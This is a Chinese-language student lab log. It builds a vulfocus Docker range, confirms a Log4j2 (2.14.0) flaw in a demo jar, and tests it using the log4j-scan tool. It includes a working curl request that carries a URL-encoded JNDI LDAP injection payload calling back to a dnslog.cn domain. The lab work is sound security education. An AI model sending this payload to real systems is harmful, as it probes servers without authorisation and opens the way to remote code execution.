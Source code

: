 # 个人实践日志

---

## 开发环境搭建

```
# 克隆ctfgame仓库
git clone https://github.com/c4pr1c3/ctf-games.git

# 安装docker镜像
sudo apt update && sudo apt install -y docker.io docker-compose jq

# 将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令
# 重新登录 shell 生效
sudo usermod -a -G docker kali

# 切换到 root 用户
sudo su -

# 该镜像源是移动互联网安全课上老师分享的链接，是docker.io的镜像网站
cat <<EOF > /etc/docker/daemon.json
{
  "registry-mirrors": [
    "https://docker.chenby.cn"
  ]
}
EOF

# 重启 docker 守护进程
systemctl restart docker

# 提前拉取 vulfocus 镜像
docker pull vulfocus/vulfocus:latest

#启动脚本,并输入LOCAL_IP 192.168.127.12
sudo bash start.sh

```
![](/img/doubleJ/环境配置1.png)
(中间流程忘记截图了，直接展示构建的docker镜像)
![](/img/doubleJ/镜像构建.png)

- 进入登录界面（账号密码均为admin）
![](/img/doubleJ/登录界面.png)

- 左边菜单栏【镜像管理】-【镜像管理】-【一键同步】
搜索log4j2，选择第一个搜索结果进行下载
![](/img/doubleJ/log4j2.png)
![](/img/doubleJ/首页查看.png)
这样漏洞攻防环境就已经配置好，可以开始实验了


## 检测漏洞存在性
- 首先在登录的界面里启动log4j2
```
# 查看容器名称
sudo docker ps

# 查看宿主机已经存在的登录shell
sudo docker exec it modest_ganguly sh
cat /etc/shells

# 进入到容器内
sudo docker exec -it modest_ganguly /bin/bash

# 找到jar包
ls

# 把jar包复制到kali上
# docker cp <容器名称或ID>:<容器内⽂件路径> <宿主机⽬标路径>
sudo docker cp bold_varahamihira:/demo/demo.jar ./

```
![](/img/doubleJ/启动log4j2.png)
![](/img/doubleJ/复制jar包.png)
![](/img/doubleJ/demojar包.png)

- 对demo.jar包使用java-decompiler反编译工具进行分析
这里可以配置ssh服务，将文件转入宿主机中，然后再宿主机里下载该工具进行分析，但是我选择的是直接在kali虚拟机中下载该工具进行分析
```
  sudo apt install jd-gui
```
然后使用该工具打开demo.jar包
![](/img/doubleJ/利用反编译工具打开jar.png)

- 打开包后，点击菜单栏的search搜索hello
![](/img/doubleJ/搜索hello.png)

- 该环境使用的是log4j低于2.15.0的2.14.0版本，且源代码使用了log4j相关缺陷函数，我们可以确定该环境是存在log4j2漏洞的,漏洞存在性得到验证
![](/img/doubleJ/漏洞存在性.png)

## 漏洞可利用性验证
---
### 方法一：使用dnslog
- 在靶机浏览器中打开dnslog.cn，点击get subdomain获取随机域名
我的为nwx03t.dnslog.cn

- 在攻击者主机输入
```
curl http://192.168.56.105:52972/hello?payload=%24%7bjndi%3aldap%3a%2f%2fnwx03t.dnslog.cn%7d
```
![](/img/doubleJ/攻击靶机.png)

回到靶机上，在dnslog.cn网页中点击refresh发现成功记录到get请求
![](/img/doubleJ/dnslog.png)

- 一开始做的时候根据老师视频演示的代码来做发现运行不了的问题，然后我们查看根据反编译结果发现，缺陷函数用到的是get请求方法，所以该环境不能支持post,所以我们得换成发送get请求

### 方法二：使用log4j-scan
```
# 攻击者主机：克隆log4j2仓库
git clone https://github.com/fullhunt/log4j-scan
cd log4j-scan
```
![](/img/doubleJ/下载log4j-scan.png)

```
# 攻击者主机：安装pip
sudo apt update && sudo apt install -y python3-pip

# 攻击者主机：安装所需要的依赖包
pip3 install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple
```
![](/img/doubleJ/安装pip和依赖包.png)

```
# 使用以下代码无脑替换
sed -i.bak 's/password"/password", "payload"/' log4j-scan.py

# 攻击者主机：检测log4j2漏洞
python3 log4j-scan.py --request-type get -u http://192.168.127.14:18846/hello
```
这里出现了报错暂时无法解决
